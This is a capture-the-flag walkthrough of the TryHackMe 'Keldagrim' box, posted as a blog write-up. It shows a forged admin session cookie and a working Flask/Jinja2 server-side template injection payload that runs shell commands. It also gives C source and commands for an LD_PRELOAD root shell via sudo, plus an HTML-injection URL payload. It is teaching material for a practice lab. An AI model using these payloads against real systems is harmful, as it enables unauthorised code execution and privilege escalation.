 ```yaml
---
layout: post
title:  Keldagrim Writeup
description: A realistic box. Many things were learned during this challenge, and I highly recommend reading this writeup.
date:   2021-02-05 
image:  '/images/keldagrim.png'
tags:   [Python, SSTI]
---
```


**This report can be read both on this site, and as its <a href = "https://0xd4y.github.io/reports/Keldagrim%20Writeup.pdf">original report form</a>. It is highly recommended that you read the original report form instead because it is better formatted.**

This box was rated as a medium difficulty by TryHackMe. This was a great box in the sense that the attacker did not have to get lucky by brute forcing a directory or password. Instead, the vulnerability came from connecting dots and researching. That being said, let’s get right into the box!

Enumerating the ports, we find that only ports 22 and 80 are open:

![](/reports/Keldagrim/image2.png)

Looking at the results we don’t find anything out of the ordinary, except for the httponly flag not being set. Let’s just check out the website and see what we find.

![](/reports/Keldagrim/image12.png)

xt file. We are met with a very simple page with a couple of directories. On the “Our Team” tab we find two possible users: Jed and Jad. This may or may not be useful later on, so I made sure to add this to my notes.txt file. Looking around we click on the “Buy Gold” tab and we see an interesting Admin option:

![](/reports/Keldagrim/image1.png)

Unfortunately the admin option is grayed out. I couldn’t find anything more useful in this so let’s use our trusty tool: Burpsuite! I captured a request to the /team directory and saw a couple of very strange things:

![](/reports/Keldagrim/image10.png)

First of all, there is a session cookie which is encoded in base64. Decoding this, we see that Z3Vlc3Q= is the base64 encode of guest. When base64 encoding the string ‘admin’ (YWRtaW4=) and pasting that into the session cookie, we see that the content length changes! Let’s use the developer tools, paste this base64 string in the session value, and reload the page.

![](/reports/Keldagrim/image5.png)

And we are now the admin! Unfortunately, there is not much that has changed except for the strange ‘sales’ cookie which is also base64 encoded. Decoding this, we see that it corresponds to the $2,165 we see on the screen. At this point, I was stuck for a long time, but at the back of my mind was this strange server in one of my requests to the page with all the packages to be bought:

![](/reports/Keldagrim/image13.png)

Server: Werkzeug/1.0.1 Python/3.6.9

This is what comes to mind. Seeing Werkzeug and python brings to mind that maybe Flask has something to do with this. After a lot of research, it seemed that this box might be vulnerable to SSTI (Server Side Template Injection). I came across a great article on this topic, which explained very well on how this vulnerability is exploited: [https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee](https://www.google.com/url?q=https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee&sa=D&source=editors&ust=1653954534767158&usg=AOvVaw3cO1ZM3W9Fe-ZTh2QettjH)

TL;DR you can get code execution through abusing flask. Proof of concept:

![](/reports/Keldagrim/image9.png)

![](/reports/Keldagrim/image4.png)

As we can see, the server evaluated 7\*7 which is 49. You must find the subprocess Popen under the <object> class with which you will get code execution. After viewing all the sub processes within the object class, I grepped the Popen subprocess to find at which index it is located. After discovering that it was at the 402nd location, the final payload looks like the following:

{{''.\_\_class\_\_.\_\_mro\_\_\[1\].\_\_subclasses\_\_()\[401\]('ls',shell=True,stdout=-1).communicate()}}

Now that we have code execution, let’s get a reverse shell!!

![](/reports/Keldagrim/image3.png)

There is user.txt. One of the first things I run when getting a reverse shell is sudo -l:

![](/reports/Keldagrim/image8.png)

Unfortunately, getting root won’t be as easy as just looking up /bin/ps on gtfobins. Fortunately, however getting root is easy nonetheless! The env\_keep+=LD\_PRELOAD is particularly strange. Looking this up, I came across an article that explained how to exploit this ([https://www.hackingarticles.in/linux-privilege-escalation-using-ld\_preload/](https://www.google.com/url?q=https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/&sa=D&source=editors&ust=1653954534768244&usg=AOvVaw0snkjC96zCdV2nbDP5tsbG))

Essentially, we want to create a shared object that will be run as root as part of the LD\_PRELOAD environment. As a result, the actual function for /bin/ps will be overridden by our own binary. Using this fact, we can create a shell as root! We must compile the code below as a shared object and add it to the LD\_PRELOAD environment.

1

2

3

4

5

6

7

8

9

#include <stdio.h>

#include <sys/types.h>

#include <stdlib.h>

void \_init() {

unsetenv("LD\_PRELOAD");

setgid(0);

setuid(0);

system("/bin/sh");

}

I saved the code below as exploit.c and compiled it with the following commands:

cd /tmp

gcc -fPIC -shared -o shell.so exploit.c -nostartfiles

sudo LD\_PRELOAD=/tmp/shell.so ps

![](/reports/Keldagrim/image6.png)

BONUS:

I ran nikto on this website, and it found an interesting vulnerability:

![](/reports/Keldagrim/image7.png)

According to nikto, the site is vulnerability to HTML injection so let’s try it out using the payload they suggest:

/ts2s1NMDd1VJtKSBRcn82Yzs6CMY1u42RDsdfO6lT8XQ4d2wnexQKAEmtizMPNHTnyEq2tGZFhuZFztIsW0KFFesXGzcEkCmWUYaq4CFDSQLzsu2gpT6eeKTFGHIDulc5a6layCW57JZyywP1ULTbIaz1LScDK6V74lsCTy8jH6z49h4spfFApiSynzRB18unriHDFcu1O9DivFGpMyUrxCsBPOLZQ0<font%20size=50>

![](/reports/Keldagrim/image11.png)

As can be seen, the font size has increased to a ridiculous size. This confirms the HTMLvulnerability. This vulnerability is not critical in the context of this box, as no other users will be using the exact same instance. However, in the case that this website were to be visited by many other users, the attacker can possibly steal their credentials by using a phishing attack. They can create a page for the victim to enter their username and password, and this information will be sent back to the attacker.  

This was a great box, and I thank the creator @optional for creating such a fun challenge! Thanks for reading this writeup, I hope you learned as much from this box as I did. I wish you a wonderful day (or night)!
